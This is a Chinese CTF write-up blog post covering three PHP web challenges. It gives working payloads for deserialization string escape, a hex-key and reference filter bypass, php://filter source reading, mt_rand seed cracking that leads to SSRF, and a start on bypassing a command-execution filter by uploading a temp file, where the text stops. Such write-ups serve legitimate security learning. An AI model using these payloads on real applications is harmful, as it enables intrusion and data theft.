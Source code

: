 ```yaml
---
layout:    post
title:     Nuctf复现
subtitle:  学习学习
date:      2021-06-11
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:

   - CTF
---
```


> 太菜了，只能赛后复现复现了。

### EasyUnser

这个还是很简单的，就简单说一下。只要学了**反序列化字符逃逸**，这个题是没有问题的。

```
<?php
    include_once 'flag.php';
    highlight_file(__FILE__);
    // Security filtering function
    function filter($str){
        return str_replace('secure', 'secured', $str);
    }
    class Hacker{
        public $username = 'margin';
        public $password = 'margin123';
    }
    $h = new Hacker();
    if (isset($_POST['username']) && isset($_POST['password'])){
        // Security filtering
        $h->username = $_POST['username'];
        $c = unserialize(filter(serialize($h)));
        if ($c->password === 'hacker'){
            echo $flag;
        }
    }
```

先随便构造一个：

```
<?php
class Hacker{
	public $username = 'aa';
	public $password = 'hacker';
}

$h = new Hacker();
echo serialize($h);
?>
```

得到：

```
 O:6:"Hacker":2:{s:8:"username";s:2:"aa";s:8:"password";s:6:"hacker";} 
```

而我们需要的部分为：

```
";s:8:"password";s:6:"hacker";} 
```

它的长度为 31。这里我们可以看到 filter函数会将 ``secure`` 替换为 ``secured``，使字符增加1，所以我们可以用 31个 ``secure``，将我们需要的字段逃逸出来，构造payload：

```
username=securesecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecures";s:8:"password";s:6:"hacker";}&password=a
```

### Just Serizlize

```php
<?php

highlight_file(__FILE__);
include 'flag.php'; // $flag = "DASCTF{xxxxx}"
$obj = $_GET['obj'];
if (preg_match('/flag/i', $obj)) {
    die("?");
}
$obj = @unserialize($obj);
if ($obj->flag === 'flag') {
    $obj->flag = $flag;
}
foreach ($obj as $k => $v) {
    if ($k !== "flag") {
        echo $v;
    }
} 
```

```php
<?php
$obj = (object)['flag'=>'flag'];
$obj->k = &obj->flag;
echo serialize($obj);
?>
```

得到：``O:8:"stdClass":2:{s:4:"flag";s:4:"flag";s:1:"k";R:2;}``。

用 hex 编码 flag 绕过 ``if($k !== "flag")`` ，表示字符类型的 s 大写时，会被当成16进制解析，定义一个变量取 flag 变量的地址即可得到 flag 变量的值。

```
O:8:"stdClass":2:{S:4:"\66lag";S:4:"\66lag";s:1:"k";R:2;}
```

### crackme

php 变量：字母数字下划线。

所以需要绕过 变量中的``.``。

[![2bbAun.png](https://z3.ax1x.com/2021/06/15/2bbAun.png)](https://imgtu.com/i/2bbAun)

用 ``crack[me.com`` 绕过这个 ``.``。

伪协议读取题目提示的文件，把 ``bingbing``带上：

```
crack[me.com=php://filter/read=convert.base64-encode|bingbing/resource=ssssrf.php
```

得到 ssssrf.php:

```php
<?php
//next ,you can try ccccmd.php
error_reporting(0);
function curl($url){
	$ch=curl_init($url);
	curl_setopt($ch, CURLOPT_HEADER, 0);
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
	$result=curl_exec($ch);
	curl_close($ch);
	echo ($result);
}
$num=$_GET['num'];
mt_srand(getenv('SEED'));
$r1=mt_rand();
echo $r1;//1230557482
$r2=mt_rand();
if($num==$r2){
	$url=$_GET['url'];
	curl($url);
}
```

可以 ssrf ，但是需要先绕过 ``$r2=mt_rand();``。

这里 ``mt_srand(getenv('SEED'));`` 设置了种子，爆破伪随机数种子，使用 ``php_mt_seed``。得到种子，即得到第二个随机数，ssrf。

[![2qShxf.png](https://z3.ax1x.com/2021/06/15/2qShxf.png)](https://imgtu.com/i/2qShxf)

执行生成正确的种子：

```php
<?php
mt_srand("134196");
$r1 = mt_rand();
$r2 = mt_rand();
echo $r1."<br>";
echo $r2;
?>
//得到 396791256
```

得到随机种子，可以 ssrf，得到 ccccmd.php：

```php
<?php
//now you can crack me!
error_reporting(0);
if($_SERVER['REMOTE_ADDR']==='127.0.0.1'){
	if(isset($_GET['cmd'])){
		$cmd=$_GET['cmd'];
		if(!preg_match("/\;|\x0a|[a-z]|[0-9]|\~|\`|\\$|\^|\||\&|\%|\:|\(/i", $cmd)){
			system($cmd);
		}
		else{
			die('no way!');
		}
	}
}
else{
	die('get out stranger!');
}
```

到了这里，发现普通命令被过滤了，采用上传临时文件道 ``/tmp``，然后通配符匹配以 sh脚本执行。

构造上传数据包：

```html
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1.0">
	<title>POST数据包POC</title>
</head>
<body>
<form action="http://xxx.xxx.xxx/xxx....." methon="post" enctype="multipart/form-data">
<!--链接是打开当前题目链接-->
	<label for="file">文件名：</label>
	<input type="file" name="file" id="file"><br>
	<input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

.